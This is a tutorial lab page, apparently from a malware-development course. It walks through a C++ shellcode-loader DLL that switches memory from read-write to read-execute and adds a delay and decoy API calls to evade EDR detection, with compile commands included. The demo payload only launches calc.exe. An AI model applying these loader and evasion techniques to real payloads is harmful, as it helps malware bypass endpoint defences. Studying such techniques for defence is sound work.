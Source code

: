 ```yaml
---
showTableOfContents: true
title: "Decoupling, Delays, and Misdirections (Lab 9.1)"
type: "page"
---
```


## Goal

Let's take `calc_dll.cpp`, as we created in Lab 1.1, decouple RWX memory permissions and introduce some delay + decoys. Note the loader + server will be the exact same as we used in Lab 8.2, these files remained unchanged.


## Code: Implementing RW -> RX
All the changes will happen inside of our `ExecuteShellcode()` function.

```cpp
BOOL ExecuteShellcode() {
	DWORD oldProtect = 0; // Variable to store original permissions

    void* exec_memory = VirtualAlloc(NULL, sizeof(calc_shellcode),
                                     MEM_COMMIT | MEM_RESERVE,
                                     PAGE_READWRITE); // CHANGE THIS LINE

    if (exec_memory == NULL) {
        return FALSE;
    }

	// Changed RtlCopyMemory to memcpy
    memcpy(exec_memory, calc_shellcode, sizeof(calc_shellcode));

    // Change memory protection to RX before execution
    if (!VirtualProtect(exec_memory, sizeof(calc_shellcode), PAGE_EXECUTE_READ, &oldProtect)) {
        // Handle VirtualProtect error (e.g., print GetLastError())
        VirtualFree(exec_memory, 0, MEM_RELEASE); // Clean up allocated memory
        return FALSE;
    }

    void (*shellcode_func)() = (void(*)())exec_memory;

    shellcode_func();
    
    // (Optional but Recommended) Restore original permissions before freeing
    DWORD dummyProtect; // We don't care about the 'old' protection on this call
    VirtualProtect(exec_memory, sizeof(calc_shellcode), oldProtect, &dummyProtect);

    VirtualFree(exec_memory, 0, MEM_RELEASE);
    return TRUE;
}
```

## Code Breakdown
- Right at the top we declare `oldProtect` to store our original permissions at the end.
- When we use VirtualAlloc, we now request memory that is `PAGE_READWRITE`
- Next, I changed the function we used to copy the shellcode into memory from `RtlCopyMemory` to `memcpy`, this is not required and has no effect, I just did it to show you that there are multiple options available to us.
- We then add a call to `VirtualProtect` *after* copying the shellcode but *before* executing it. This changes the page permissions to `PAGE_EXECUTE_READ`, allowing the CPU to execute the instructions stored there. We store the previous permissions (`PAGE_READWRITE`) in the `oldProtect` variable.
- Then, before we call `VirtualFree()` (as we did before), we restore our original memory permissions (`PAGE_READWRITE`). As explained in Theory 9.1, this is not required, but good practice.


## Code: Implementing Delays + Decoys
Once again all the changes happen inside of `ExecuteShellcode()` function, specifically between the points where we use `memcpy` to copy the shellcode into memory, and then change the permissions.

```cpp
BOOL ExecuteShellcode() {
	DWORD oldProtect = 0; // Variable to store original permissions

    void* exec_memory = VirtualAlloc(NULL, sizeof(calc_shellcode),
                                     MEM_COMMIT | MEM_RESERVE,
                                     PAGE_READWRITE); // CHANGE THIS LINE

    if (exec_memory == NULL) {
        return FALSE;
    }

	// Changed RtlCopyMemory to memcpy
    memcpy(exec_memory, calc_shellcode, sizeof(calc_shellcode));

	// --- Start Delay/Misdirection ---  
	  
	 // Misdirection: Call some common, low-impact APIs DWORD tickCount = GetTickCount();  
	 SYSTEMTIME sysTime;  
	 GetSystemTime(&sysTime);  
	  
	 // Delay: Pause execution for a short period  
	 Sleep(2000); // Sleep for 2 seconds (Adjust as needed)  
	  
	 // --- End Delay/Misdirection ---
 
    // Change memory protection to RX before execution
    if (!VirtualProtect(exec_memory, sizeof(calc_shellcode), PAGE_EXECUTE_READ, &oldProtect)) {
        // Handle VirtualProtect error (e.g., print GetLastError())
        VirtualFree(exec_memory, 0, MEM_RELEASE); // Clean up allocated memory
        return FALSE;
    }

    void (*shellcode_func)() = (void(*)())exec_memory;

    shellcode_func();
    
    // (Optional but Recommended) Restore original permissions before freeing
    DWORD dummyProtect; // We don't care about the 'old' protection on this call
    VirtualProtect(exec_memory, sizeof(calc_shellcode), oldProtect, &dummyProtect);

    VirtualFree(exec_memory, 0, MEM_RELEASE);
    return TRUE;
}
```


## Code Breakdown
- We're just adding one extremely simply decoy function, and a 2-second delay.
- Note this single, simple decoy is unlikely to have much impact, but I just wanted to illustrate the principle - this is one of those areas you are free to get extremely creative with, so feel free to research other potential functions, combinations etc.



## Instructions
We'll need to recompile our DLL.

On Darwin (Mac OS):

```
x86_64-w64-mingw32-g++ calc_dll.cpp -o calc_dll.dll -shared -static-libgcc -static-libstdc++ -luser32
```

On Windows:

```
cl.exe /D_USRDLL /D_WINDLL calc_dll.cpp /link /DLL /OUT:calc_dll.dll
```

On Linux:

```
g++ -shared -o calc_dll.dll calc_dll.cpp -Wl,--out-implib,libcalc_dll.a
```


Then, follow the exact same instructions from Lab 8.2 - we'll once again run our server, and then the client/loader. The only difference now of course is that the server will serve this new dll with our delay + decoy functions.

## Results
The output should be unchanged from Lab 8.2, and following a 2-second delay we should once again have calc.exe pop-up. Our decoy function has no visible effect, remember this is all an attempt to foil detection behind the scenes by introduction some functional misdirection.

## Discussion
In theory these changes might have made some improvement to our chances of being detected. Now of course, the only way to detect that would have been in an environment with an EDR. That however is a lot of effort for something that is more than likely to fail, as I mentioned before I think there is educational value in exploring this process, even if there practical is dubious. You are however of course free to improve on the code here, introduce more dummy functions etc and test it in a live environment if you wish, just be aware that we have much better tricks up our sleeve which we'll explore in our upcoming modules.

## Conclusion
We've successfully refactored our shellcode execution. This serves as a solid foundation for the subsequent lessons in this module where we will explore further refinements and techniques for in-process evasion.

---
[|TOC|]({{< ref "../moc.md" >}})
[|PREV|]({{< ref "delay.md" >}})
[|NEXT|]({{< ref "encrypt.md" >}})